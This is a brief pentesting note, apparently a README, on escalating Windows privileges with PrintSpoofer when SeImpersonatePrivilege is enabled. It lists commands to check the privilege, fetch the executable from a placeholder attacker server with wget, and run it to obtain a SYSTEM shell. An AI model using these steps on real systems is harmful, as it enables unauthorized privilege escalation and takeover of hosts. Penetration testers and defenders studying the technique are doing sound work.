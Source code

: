 # <h1 align="center" id="heading">PrintSpoofer</h1>
PrintSpoofer is a quick and easy way to elevate privileges within a target system. In order for this attack to be possible, the SeImpersonatePrivilege must be enabled. This is commonly available for service accounts including (but not limited to) IIS SERVICE, LOCAL SERVICE, and NETWORK SERVICE. If I find myself on a system in one of these contexts, I can quickly and easily elevate privileges to NT AUTHORITY\SYSTEM. I will need to first run the following command to check if SeImpersonatePrivilege is available on the target:
```console
whoami /priv
```
If it shows enabled, I can run the following command to transfer the executable to the target system:
```powershell
wget http://<attacker server>/PrintSpoofer.exe -outfile C:\Windows\Tasks\PrintSpoofer.exe
```
Next, I will run the following command to trigger the privilege escalation on the target system:
```console
C:\Windows\Tasks\PrintSpoofer.exe -i -c cmd
```
If this attack is successful and not blocked by AV, I will recieve a SYSTEM session on the target.
